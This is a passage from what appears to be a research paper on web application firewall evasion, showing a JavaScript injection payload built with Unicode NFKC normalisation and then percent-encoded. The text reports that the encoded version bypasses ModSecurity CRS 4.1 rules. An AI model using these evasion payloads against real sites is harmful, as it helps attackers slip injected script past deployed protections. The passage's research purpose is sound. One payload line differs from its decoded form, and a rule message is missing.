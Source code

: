 \begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('prompt`\uFE69{secret}`'.normalize('NFKC'))()
\end{lstlisting}

bypasses CRS4.1 rules that try to prohibit payloads including the character sequence of \verb|eval(| but still matches on rule with id \verb|920540| and message: . Therefore, in the following iteration, the payload was percent encoded, again using the \verb|quote_plus()| python function, which returned: 

\begin{lstlisting}[style=basicStyle, language=Python]
%5B%5D.constructor.constructor%28%27prompt%60%EF%B9%A9%7Bsecret%7D%60%27.normalize%28%27NFKC%27%29%29%28%29
\end{lstlisting}

The percent encoded payload successfully bypasses the ModSecurity firewall using CRS4.1. If decoded on the Web server, it resolves into the targeted payload (the character U+FE69 is displayed by the regular \$ surrounded by whitespaces in this document):

\begin{lstlisting}[style=basicStyle, language=Python]
"[].constructor.constructor('prompt` $ {secret}`'.normalize('NFKC'))()"
\end{lstlisting}





